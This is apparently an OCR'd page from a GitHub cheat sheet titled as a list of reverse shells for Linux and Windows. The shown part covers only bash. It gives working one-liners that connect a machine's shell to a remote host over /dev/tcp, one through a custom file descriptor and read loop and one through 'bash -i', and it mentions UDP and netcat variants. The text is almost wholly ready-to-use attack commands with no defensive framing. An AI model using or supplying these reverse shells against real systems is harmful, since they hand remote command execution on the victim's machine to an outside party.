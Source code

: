 A list of reverse shells for linux and windows

Bash reverse shell
A bash reverse shell one-liner command using custom file descriptor is as follows (it won't be a tty):

exec 100<>/dev/tcp/192.168.2.6/8080 
cat <&100 | while read line; do $line 2>&100 >&100; done 
Or:

while read line 0<&100; do $line 2>&100 >&100; done 
A bash reverse shell one-liner command using bash's interactive mode is as follows:

bash -i >& /dev/tcp/192.168.2.6/8080 0>&1 
In both cases, you can use /dev/tcp for TCP-based reverse shell and /dev/udp for UDP-based reverse shell. (For a UDP connection, use the -u switch with netcat to get the shell over UDP.)
